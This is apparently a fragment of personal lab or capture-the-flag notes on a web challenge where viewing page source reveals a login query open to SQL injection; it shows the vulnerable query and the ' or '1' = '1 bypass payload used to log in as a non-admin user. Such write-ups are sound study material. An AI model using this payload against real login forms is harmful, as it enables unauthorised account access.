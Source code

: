 
![[Pasted image 20240529163709.png]]
navigating to `/notes/` redirects to `/login/`, when pressing `ctrl+u` can see sql injection is available.
![[Pasted image 20240529164653.png]]
```sql
SELECT * from users where username = 'input' and password = 'input';
SELECT * from users where username = '' or '1' = '1' and password = '' or '1' = '1';
' or '1' = '1
```
logged in with `' or '1' = '1` in both username and password

![[Pasted image 20240529165039.png]]
need to be logged in as an admin, currently logged in as user adam